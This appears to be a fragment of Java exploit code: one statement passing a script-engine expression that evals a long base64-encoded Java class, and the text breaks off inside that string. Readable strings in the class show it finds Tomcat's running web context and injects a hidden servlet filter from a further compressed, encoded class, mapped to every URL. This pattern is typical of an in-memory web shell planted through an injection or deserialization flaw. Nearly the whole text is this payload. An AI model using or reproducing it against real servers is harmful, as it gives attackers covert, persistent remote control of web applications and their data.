        Object node = nodeCons.newInstance("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"try{var b = org.apache.tomcat.util.codec.binary.Base64.decodeBase64('yv66vgAAADIBbQEAUG9yZy9hcGFjaGUvY29sbGVjdGlvbnMvY295b3RlL3Nlci9Qcm9wZXJ0eVdyaXRlcmRlYzIzNTNlMGNlMDQ1NzNiMmY3ZmU1NDQzM2Q1ODdmBwABAQAQamF2YS9sYW5nL09iamVjdAcAAwEADWdldFVybFBhdHRlcm4BABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEAAi8qCAAHAQAMZ2V0Q2xhc3NOYW1lAQB3b3JnLmFwYWNoZS5jb21tb21zLmJlYW51dGlscy5jb3lvdGUuZGVzZXJpYWxpemF0aW9uLmltcGwuUHJvcGVydHlCYXNlZE9iamVjdElkR2VuZXJhdG9yOTdkNDg2OThlYmExNDBmYmJjMDg2NmUxYTE0ZDU2YzkIAAoBAA9nZXRCYXNlNjRTdHJpbmcBABNqYXZhL2lvL0lPRXhjZXB0aW9uBwANAQAQamF2YS9sYW5nL1N0cmluZwcADwEQ1Eg0c0lBQUFBQUFBQUFNVlllWHhjVlJYKzdzeGszbVF5M1RKMG1hWWJoYmFUZGRJMkRVbmFRcE8wa05oTVdwclNtZ2FRbDhsTE11MXNuWG1UTkhWWEZNUVZ4UVhGcWxXc0MySnBZZEpRZ2JxQmdvZ0lDaUxpdmkrSWlvb2k4YnZ2dlpsTU1rbkx6My84SlhudnZudlA4cDF6enpuMzNEejQwdDMzQWxncnRnb014NU1EQVRXaGhnYTFRQ2dlamNhanFVQ3Zwc2JTZWppUzRzeElYTmNDZlZwS1M0YlZTUGl3cW9manNVQTRtb2dFZGliakNTMnBqN1NvS2ExdlIrOStMYVMzOTEybXhiU2txc2VUalJmMTFUWFVOelpvdmVyYXV0ciszdDVRYlVOOXZiYVdYMzBiNmtPTkNvVEEvUDNxa0JxSXFMR0JRR3RFVGFVNjRtcWZsbFJnRnpoUExoMEtVTzlRUk5NRGw0WWp1bHdwRW5CdUNzZkMrc1VDZG4vNUhnRkhhN3hQRTVqVEVZNXBuZWxvcjViY3JmWkdPRlBhRVErcGtUMHFnZlBibW5Ub2crR1V3RWpILzhuc2pSNG9jTG5od0d5QnhmNk9hUjJ3VWRvbERnc3NuR0ZkQ3BrcmhYaEpNMEhTcFNmRHNZR1dkRGhpZUhHK0d3dWtHa2VDbk5JZlV5a3BaeEY4eGJCaE1kMnFKaEphckUrZzJsOUlXRjR3WldtaGlDVllLaFV0NDRZYzBFWThXR0dLUEYvQXBjZE5ZbTZudjFBRWVTL0FoWkozRlhtamZSc0VWcjhzM1dSY0E3K2JTc3JseUZCWFNZOWR6b2p5OTdTVVQvWGFSZ0ZicUplUG5oYUJrajZ0bjZGaUxOQjdwRzl2TCtUd1lDM1dTUSt2cDl4REFncnA5cFZMZnU4RTZiWkRJUzBoSTBQQlJTUUxVWDJIR2JhaDVFaENqd2RhdzRsQitvaGJNS1FtNjdMTFU1aTVMSWhFUlBtM1QwR3RwV0tLRUFYTkFyTzZkRFYwSUtnbXJHaTJOMi9yY29GWlhES2c2ZTJ4bEs3R1Fwd3VuOUdMVTVGNWNDa3VjNk1GYlFMTEp4R2tFbG9vMEtXRmtwcStYUnZwNHBlQ1Z3ak1uU3BZUVFjM211cGJSblNOWmpqODlKSUhuZGpoUmhBN1RROVBBMmVQak9GZGJteEhGNWxrUmt2U2RwTXlwWVhTeWJBK0VxQnFnL1FLN0pFbzkzSWordUtYaG1OcWhBRXJ0MXJxNnNZK3VkZ2pzSFFLZTFCTHBkUUJiV3Q0UUV2cDlMT2QxdkFaM0xyQmhWY0psSjJGV29FcXNIYm1jSnhCaDNSb3lJMWVNSkdjRVMwMm9BOGFoYXJkZzM0TVNKZncyNWxPOUttNlprWVZvNDhHN3NjQnlSV3hDbDhncXVxRGdaYndRSHRNMXdiazdzZkkxbWZvOENBaG5kdUxnOUlIN1hTQzRjdVVHM0hvTWdQYVowaTFJVWt4ekdEUjQxY3cxNU90ckdBZWpNZ1VESUxWeHRQTGlmcTZiYkdRVVZFWFRFa2xTeEpSbXhUSnlTWEZMSVZjZHBwaUJPWk5rNGN5RWVxWmliME1sYUloTlpMV3JKaXFrWlczcHNWZ2RlRXRMT2hUbUJWY1I5WDk4V1NuR2lYVHFuTlVpbXdhdncwM3VIRTkzaTdnWnBCYXlGMTRKOEgzRkpBcmVMZEFNZW1DbWo0WTV4WnVtVVpMSVZ1KzNxVFdINkVmQXFZRUFyZ1I3NVVBM3NlMDdpbDBsNEwzQ3l5YWlWM0JCK25QY0d3b2ZvQW1OL29MK2FjUldWNDQ1Y0hOK0xBYkg4SkhKbVd3dWFyZ28yWUdXeVhSNjUvT2p4L0R4OTA0Z2s4SXpOWU1KKzYyYXJzTG4yU3NwTkt4bW1nNEZhcHBhZTdhbG8waCt2bFdobHRNRzU2b1RaTVBnaHkrWS9pTTlOSm5hYTRwM29YUGM4dHlSWks0WERMelpSY2cwT1B2bU53ZWRKbnZYZHJCdE16Q21WWlRDVXJTcGk2YlVsc0gxWERNT0hsWFRPQXpjZXRoNC96UEsvZkhKMU5GSXRxQUdta09oVmdMOHFoT3NLTDM4NDltNTIvZExuT1B3MFBham9Uc0d2SkZ5L3hSazhrZGFXYnljcE1uSEEvSTJ0cWNUS29qbkUra2RUcGVVNk15RTFOVVNDNmltV0xUb0s0bkFtMThkSmtVTXZWWWMxalRacWNtK1VwZzJkbDl5VXhNVGZaZkZ0bk1EbVp1aDZRN1dXTFA0bXZpVDJaQnJKa1oveFEwcm1RT3h0UW9LR1RLNFZseU5oc1YzTSt6NDZ3bUtmaUdnRzlHV3hROHlKTDBza3hROEMzMk9TOFB1SUp2YzMvT3ZyTUt2bU9CbnpGU0ZIelhVbm51QUZUd09QTnVVSk45cHF5MEhuemZiTENlTUN0am03SGl3US9nTDhIRGVJcjViUkx2a2NYY2c2ZE42aDl4bzBMeG1FN2ZNSFhMSmpXNmcycXlTL3FDOVdCaitUNFBmb3lmeUJQb3AyYUo3c3FHOUVwLytibUMyb09mNHhjU3hpOTVlcEYzcDVva1pGM2krN1dKN3plNVkyMnJsajNXcGprNFpCdnhPL3hldHBSLzhHQUQ2dVhvVHd6UWhEb1NZYy90d3A5TkRjMDZPWHJUOHZBK1Y2K2FxMjEvd1Y5TDhDait4dHpMVmxtemoyZEVGZGJhWEl2L2QveERsc1IvU2loZUQ2cFJJMGYvSm83VUpCeHJwc0V4emFuQUp1RS9lRWtDR2FlakUxbFBwVnhDU0VlTnUvR1ljU2ZKQzVNMEsxOVVtd2dOd2R2WG9ueHR1d2VUOFdIWmlwcjluRkRjd2lsY3NvWWZUS3VSbEd4R3BrR3l6eVBjb29TbmlmQ1lNYldYalpUMHhzS3NOeGpJTzJtSHRiRFJJMmFMT1NWNFJNd2xmU3JkbTdJdUZRdjg3ZFAyT3FKVWVCbFI0cnhzdHo1Wm5pSVdzRUFOeS9FVWhCUE5xVmdrZkc2eFVDeVdoOTRxbzJmS3BaWkhMSlVOMkdOaW1RZXZ3V3U1SzJJRmRjcitLaWhXNXBxRy8vVjBrcTY4WFZ4WWdvZkVxb0xzdDRqejltUk5ucEh0Ty9JV3ltVVZqcWlIRDh1bVdiTTZOdGwvOFo1bHB3c0xUMjB6UlpJdUVXQ1FtU3d0NmY1K09iUFdUTTRjeFhyWmpob2ZMa0Y1eTZlYWJOWEdlS3cvUEdBY3FwNyt2Qm5XNDdQUkc0Q0pNRDdDS3JJcEZMSHUrKzdXNGJZRHc1SHRvWFRhSlRheGt3bHBqZXZXcTZFUTc5anJOL1RWOXJzRXFaenlHRTdvTHJHRll0cDJ4a0o3dEZhWGFNSDVUQjRIdUk0aUZNdGJJd0NYdlA4YTd4WEdXOGhpWjd5Zk50NGxIUEc2em1jeHY1cGg1d2p3Vm94aVRvVlhOTitGSi9scXZRdlAzTUZwRzl4OHlod0Z4WlZTWVFsSEhwT0Y3MW1HWUY3Y0xYRVJ3cEcwdFJXVm96aHZzcnpUV05BOWlvVW5VSmJCOGhOWXlXY0dxMCtoNGlTcUpuVE5KaURnUWtwZmhRQldHL29XbURJdGZYSTBqMWpZaE1nQ1ltbmViR2t1cnFpMFY5NDdpcnJqT1pGT0EyNTVucWppbktoaUtxazFSTEZBV3FLZUlJZUQ3OHJTYmFmUTNsbTk1R1lvam1Od0ZKM0c5bTREK09XbDIwYXhPNE5YVmxkbWNPWHhUbkhjVU1FTFBCcUkzMjBvS3VJelFGRzFXTW1MdHgvckNHRzlBYUtPYTA3T05xS0oxT1dFdEJHYkRMc3JjOEFxYVZHdEliVVNGK01TMHJSeVRLcHh6SUZEZ1UzQkZxSHdpaWdmNDF6S24rT2dSWXhqSWV6V3BLUnFNRUxFYnhsSmV3eU50YUtqOUpwVDBJSlZGYlRMemtjNGcraHB4THNkVlJra1I1R2VPemVEUXhtOHVvTXN3VXBwcVEwVjlIelcwbVhjZi9ETFJtdGN0R1ErVVZZUWN6VXRxQ0h5RWlOMjdGeGJ5ZG1yckwzY2JBU2pqUlJYY3lRTTY3eXdqWk9OaUlQOE5URVRMT3NSQ1FsYXRCdVJEaHdpNkxlZXdqdUNWYVh2RW1md25neHVxdUw3QXhuYzBsbWR3ZEhTVHpudXdmWGQ5dEl0WFZ5cTVzZVJibnNGeDdlY1FaQjJOSGFXZnRwZ3orQnpUUTZmUTdMY2xzL2ljeFR3RkRVNWFMeU5QNXV4aGNDYWNSQjZ6Z25ydUhHZ0VUYmVsVjI0REdWb0k5MU9VcmFUY2p0bk9taFJrRHc3eU5XSklWeHVPS2FOeml1alkxNkgxeHN1YXNBYjhFWktDVElGNUp5RG5OWFdYRE5qOUUxV29CekNtK2xFNmNBaFhKdHpZTGtNankzR2xtY2RPTTZZYzFqZjBwOXk3Z1dTZjBHR0ROK2N3ZTM0b3VsZzIyMTBMMkdKSlpWbjhIQ1RvK29NSG1rcThqa3E3c1NUWS9paERmZmoyYnd2RHA3SjRHYzM0eW1mWXd5L0VtaHlWdmdjVFBBeC9OYUdEUDdZcEZUNEZIc0d6ellwUG1mcGMyTjQzb1lIc0ZLT1Q4UFd6V0E3bXNFTG8vaVhUOG5neFRIV2NNYmxEVDZIVjloOHlwaXcyM0VhajNXUENrZVRLOGQvQnRmTFhTcytoamxON3RQQzJlMXpqNHJpKzN6RlBsZEd6TnJMdDJLOGk4YkVQSUVUcUxJemdNWDhqQ2p6RldmRWt1eENoU1JmenAxLzlwUTRYeTdtNkNYNUJadzVocExxeXFveHNWcUNtdFhrekg3Y1FaUTM0aWh1NWNoOG40UTh6ZWZsZ21FL0Z2TzVoOEc2Ri9KZk9RSHM0MW9QTi90S2J2dFYvTG1hUVgwTkd5R1ZFdm9vWTRCU05LcnBwOHhCakZIQ2wxbExIMGNVVHlHRzV4QVhkaVNGRXlreEc4UFVsQlplRElreWpCaEJkQzFyeGxIcXZwTUJVMHdwYnR4Rjc3c3BPNGxSbkdKWTNZRmQxbW9ESHFMOHU0bXRqYzQ5elNCU0tNdEZqazJjNDg1bkt4QkhYOEk5c2dKeGRDL3VrM25MMFJraXM4TXBGdUFyK0NvanlDUG00bXY0T3VPbTFhai9ybkdhNWpMS3pnTUt2cW5nSVFVUEszaEV3YU9NUW1DY0ZhaDRwbVdGL1JvRDlIc3Zva1RCa1hFNnkxbEl5akJWV2hqRnhVWU1POW1wK0VVRmNiTFhOYU1ZejF0bDRxQlgxQnBwN2hYcnJPd095dXlXYVcvbWQ2V1ozMXY0ZXp4b2xKVE9hcStvczk4amcrd213ZmNSRWxnbHdpdnE4NlZrYTBTK0RLTmdWK1VWeDhYU3FheGZDck81bWh0UXcxeXVZemEzTTVQbDFsM01kUVdyUmFXUjRYWFliSXpzWFBlTEtpUC9hOUFxcXJrNXNtd2V6QjBQQjBWTkx1dDV2a1ZsYXVlbjlCWGlJc3NaRzR3cXdiMmJPR1BOQS9HNnZBTlI1QVFMMFNBYUorcUQ0SGtobW5MdFFxVkJPNDJ3Ry9JYWc2d3dsOWlZWTl4bXFHR0Y4b3JOSjFIbUZaZWN4TXB6ZFFRaTEzMTRzSlJ4c3d6NEx3NStQZS9uR1FBQQgAEQEABjxpbml0PgEAFShMamF2YS9sYW5nL1N0cmluZzspVgwAEwAUCgAQABUBAAMoKVYBABNqYXZhL2xhbmcvRXhjZXB0aW9uBwAYDAATABcKAAQAGgEACmdldENvbnRleHQBABIoKUxqYXZhL3V0aWwvTGlzdDsMABwAHQoAAgAeAQAOamF2YS91dGlsL0xpc3QHACABAAhpdGVyYXRvcgEAFigpTGphdmEvdXRpbC9JdGVyYXRvcjsMACIAIwsAIQAkAQASamF2YS91dGlsL0l0ZXJhdG9yBwAmAQAHaGFzTmV4dAEAAygpWgwAKAApCwAnACoBAARuZXh0AQAUKClMamF2YS9sYW5nL09iamVjdDsMACwALQsAJwAuAQAJZ2V0RmlsdGVyAQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMADAAMQoAAgAyAQAJYWRkRmlsdGVyAQAnKExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvT2JqZWN0OylWDAA0ADUKAAIANgEAJigpTGphdmEvdXRpbC9MaXN0PExqYXZhL2xhbmcvT2JqZWN0Oz47AQAgamF2YS9sYW5nL0lsbGVnYWxBY2Nlc3NFeGNlcHRpb24HADkBAB9qYXZhL2xhbmcvTm9TdWNoTWV0aG9kRXhjZXB0aW9uBwA7AQAramF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvblRhcmdldEV4Y2VwdGlvbgcAPQEAE2phdmEvdXRpbC9BcnJheUxpc3QHAD8KAEAAGgEAEGphdmEvbGFuZy9UaHJlYWQHAEIBAApnZXRUaHJlYWRzCABEAQAMaW52b2tlTWV0aG9kAQA4KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL09iamVjdDsMAEYARwoAAgBIAQATW0xqYXZhL2xhbmcvVGhyZWFkOwcASgEAB2dldE5hbWUMAEwABgoAQwBNAQAcQ29udGFpbmVyQmFja2dyb3VuZFByb2Nlc3NvcggATwEACGNvbnRhaW5zAQAbKExqYXZhL2xhbmcvQ2hhclNlcXVlbmNlOylaDABRAFIKABAAUwEABnRhcmdldAgAVQEABWdldEZWDABXAEcKAAIAWAEABnRoaXMkMAgAWgEACGNoaWxkcmVuCABcAQARamF2YS91dGlsL0hhc2hNYXAHAF4BAAZrZXlTZXQBABEoKUxqYXZhL3V0aWwvU2V0OwwAYABhCgBfAGIBAA1qYXZhL3V0aWwvU2V0BwBkCwBlACQBAANnZXQMAGcAMQoAXwBoAQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7DABqAGsKAAQAbAEAD2phdmEvbGFuZy9DbGFzcwcAbgoAbwBNAQAPU3RhbmRhcmRDb250ZXh0CABxAQADYWRkAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaDABzAHQLACEAdQEAFVRvbWNhdEVtYmVkZGVkQ29udGV4dAgAdwEAFWdldENvbnRleHRDbGFzc0xvYWRlcgEAGSgpTGphdmEvbGFuZy9DbGFzc0xvYWRlcjsMAHkAegoAQwB7AQAIdG9TdHJpbmcMAH0ABgoAbwB+AQAZUGFyYWxsZWxXZWJhcHBDbGFzc0xvYWRlcggAgAEAH1RvbWNhdEVtYmVkZGVkV2ViYXBwQ2xhc3NMb2FkZXIIAIIBAAlyZXNvdXJjZXMIAIQBAAdjb250ZXh0CACGAQAaamF2YS9sYW5nL1J1bnRpbWVFeGNlcHRpb24HAIgBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYMABMAigoAiQCLAQATamF2YS9sYW5nL1Rocm93YWJsZQcAjQEADWN1cnJlbnRUaHJlYWQBABQoKUxqYXZhL2xhbmcvVGhyZWFkOwwAjwCQCgBDAJEBAA5nZXRDbGFzc0xvYWRlcgwAkwB6CgBvAJQMAAkABgoAAgCWAQAVamF2YS9sYW5nL0NsYXNzTG9hZGVyBwCYAQAJbG9hZENsYXNzAQAlKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL0NsYXNzOwwAmgCbCgCZAJwMAAwABgoAAgCeAQAMZGVjb2RlQmFzZTY0AQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgwAoAChCgACAKIBAA5nemlwRGVjb21wcmVzcwEABihbQilbQgwApAClCgACAKYBAAtkZWZpbmVDbGFzcwgAqAEAAltCBwCqAQARamF2YS9sYW5nL0ludGVnZXIHAKwBAARUWVBFAQARTGphdmEvbGFuZy9DbGFzczsMAK4ArwkArQCwAQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DACyALMKAG8AtAEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAcAtgEADXNldEFjY2Vzc2libGUBAAQoWilWDAC4ALkKALcAugEAB3ZhbHVlT2YBABYoSSlMamF2YS9sYW5nL0ludGVnZXI7DAC8AL0KAK0AvgEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwAwADBCgC3AMIBAAtuZXdJbnN0YW5jZQwAxAAtCgBvAMUBAA1nZXRGaWx0ZXJOYW1lAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAAEuCADJAQALbGFzdEluZGV4T2YBABUoTGphdmEvbGFuZy9TdHJpbmc7KUkMAMsAzAoAEADNAQAJc3Vic3RyaW5nAQAVKEkpTGphdmEvbGFuZy9TdHJpbmc7DADPANAKABAA0QEAIGphdmEvbGFuZy9DbGFzc05vdEZvdW5kRXhjZXB0aW9uBwDTAQAgamF2YS9sYW5nL0luc3RhbnRpYXRpb25FeGNlcHRpb24HANUBABFnZXRDYXRhbGluYUxvYWRlcgwA1wB6CgACANgMAMcAyAoAAgDaAQANZmluZEZpbHRlckRlZggA3AEAXShMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzcztbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwARgDeCgACAN8BAC9vcmcuYXBhY2hlLnRvbWNhdC51dGlsLmRlc2NyaXB0b3Iud2ViLkZpbHRlckRlZggA4QEAB2Zvck5hbWUMAOMAmwoAbwDkAQAvb3JnLmFwYWNoZS50b21jYXQudXRpbC5kZXNjcmlwdG9yLndlYi5GaWx0ZXJNYXAIAOYBACRvcmcuYXBhY2hlLmNhdGFsaW5hLmRlcGxveS5GaWx0ZXJEZWYIAOgBACRvcmcuYXBhY2hlLmNhdGFsaW5hLmRlcGxveS5GaWx0ZXJNYXAIAOoBAD0oTGphdmEvbGFuZy9TdHJpbmc7WkxqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7KUxqYXZhL2xhbmcvQ2xhc3M7DADjAOwKAG8A7QEADXNldEZpbHRlck5hbWUIAO8BAA5zZXRGaWx0ZXJDbGFzcwgA8QEADGFkZEZpbHRlckRlZggA8wEADXNldERpc3BhdGNoZXIIAPUBAAdSRVFVRVNUCAD3AQANYWRkVVJMUGF0dGVybggA+QwABQAGCgACAPsBADBvcmcuYXBhY2hlLmNhdGFsaW5hLmNvcmUuQXBwbGljYXRpb25GaWx0ZXJDb25maWcIAP0BABdnZXREZWNsYXJlZENvbnN0cnVjdG9ycwEAIigpW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsMAP8BAAoAbwEBAQANc2V0VVJMUGF0dGVybggBAwEAEmFkZEZpbHRlck1hcEJlZm9yZQgBBQEADGFkZEZpbHRlck1hcAgBBwEAHWphdmEvbGFuZy9yZWZsZWN0L0NvbnN0cnVjdG9yBwEJCgEKALoBACcoW0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsMAMQBDAoBCgENAQANZmlsdGVyQ29uZmlncwgBDwEADWphdmEvdXRpbC9NYXAHAREBAANwdXQBADgoTGphdmEvbGFuZy9PYmplY3Q7TGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwwBEwEUCwESARUBAA9wcmludFN0YWNrVHJhY2UMARcAFwoAGQEYAQAgW0xqYXZhL2xhbmcvcmVmbGVjdC9Db25zdHJ1Y3RvcjsHARoBABZzdW4ubWlzYy5CQVNFNjREZWNvZGVyCAEcAQAMZGVjb2RlQnVmZmVyCAEeAQAJZ2V0TWV0aG9kDAEgALMKAG8BIQEAEGphdmEudXRpbC5CYXNlNjQIASMBAApnZXREZWNvZGVyCAElAQAGZGVjb2RlCAEnAQAdamF2YS9pby9CeXRlQXJyYXlPdXRwdXRTdHJlYW0HASkKASoAGgEAHGphdmEvaW8vQnl0ZUFycmF5SW5wdXRTdHJlYW0HASwBAAUoW0IpVgwAEwEuCgEtAS8BAB1qYXZhL3V0aWwvemlwL0daSVBJbnB1dFN0cmVhbQcBMQEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgwAEwEzCgEyATQBAARyZWFkAQAFKFtCKUkMATYBNwoBMgE4AQAFd3JpdGUBAAcoW0JJSSlWDAE6ATsKASoBPAEAC3RvQnl0ZUFycmF5AQAEKClbQgwBPgE/CgEqAUABAARnZXRGAQA/KExqYXZhL2xhbmcvT2JqZWN0O0xqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL3JlZmxlY3QvRmllbGQ7DAFCAUMKAAIBRAEAF2phdmEvbGFuZy9yZWZsZWN0L0ZpZWxkBwFGCgFHALoKAUcAaAEAHmphdmEvbGFuZy9Ob1N1Y2hGaWVsZEV4Y2VwdGlvbgcBSgEAEGdldERlY2xhcmVkRmllbGQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvcmVmbGVjdC9GaWVsZDsMAUwBTQoAbwFOAQANZ2V0U3VwZXJjbGFzcwwBUABrCgBvAVEKAUsAFQEAEmdldERlY2xhcmVkTWV0aG9kcwEAHSgpW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7DAFUAVUKAG8BVgoAtwBNAQAGZXF1YWxzDAFZAHQKABABWgEAEWdldFBhcmFtZXRlclR5cGVzAQAUKClbTGphdmEvbGFuZy9DbGFzczsMAVwBXQoAtwFeCgA8ABUBAApnZXRNZXNzYWdlDAFhAAYKADoBYgoAiQAVAQAbW0xqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7BwFlAQAIPGNsaW5pdD4KAAIAGgEABENvZGUBAApFeGNlcHRpb25zAQANU3RhY2tNYXBUYWJsZQEACVNpZ25hdHVyZQAhAAIABAAAAAAAEAABAAUABgABAWkAAAAPAAEAAQAAAAMSCLAAAAAAAAEA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